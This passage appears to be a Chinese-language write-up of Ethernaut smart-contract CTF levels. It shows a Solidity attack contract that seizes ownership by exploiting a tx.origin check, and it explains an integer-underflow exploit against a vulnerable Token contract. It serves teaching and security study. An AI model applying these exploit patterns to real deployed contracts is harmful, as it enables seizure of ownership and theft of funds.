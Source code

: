 * 漏洞分析
  在此题中，我们只需要写一个攻击合约，使攻击合约通过另一个地址去调用受攻击合约就行：
  ```
  pragma solidity ^0.6.0;

  interface Telephone {
      function changeOwner(address _owner) external;
  }
  contract Attack {
      Telephone t;
      constructor(address _adr) public{
          t = Telephone(_adr);
      }

      function exp () public {
          t.changeOwner(0x100200fF289D4dA0634fF36d7f5D96524f7EFf67);
      }
  }
  ```

  * 总结：
  tx.origin不应该用于智能合约的授权。更多的时候采用`msg.sender == owner`来进行判断。<br/>
  但它也有自己使用的场景，比如想要拒绝外部合约调用当前合约则可使用`require（tx.origin ==msg.sender）`来进行实现。

  ## 05 Token
  这是一个整数溢出的漏洞
  先看代码：
  ```
  pragma solidity ^0.6.0;

  contract Token {

    mapping(address => uint) balances;
    uint public totalSupply;

    constructor(uint _initialSupply) public {
      balances[msg.sender] = totalSupply = _initialSupply;
    }

    function transfer(address _to, uint _value) public returns (bool) {
      require(balances[msg.sender] - _value >= 0);
      balances[msg.sender] -= _value;
      balances[_to] += _value;
      return true;
    }

    function balanceOf(address _owner) public view returns (uint balance) {
      return balances[_owner];
    }
  }
  ```
  不难发现，这个合约没有用到`SafeMath`那么我们就要格外关注是否存在整数溢出型的漏洞。
  不出意外：在transfer方法中`require(balances[msg.sender] - _value >= 0)`使明显存在整数下溢的风险的。<br/>
  由于题目中说到我们一开始拥有20个token，那我们只需要向此合约发出交易，`_value>20`即可使`balances[msg.sender] - _value` 发生下溢变成一个很大的值从而符合判定条件。

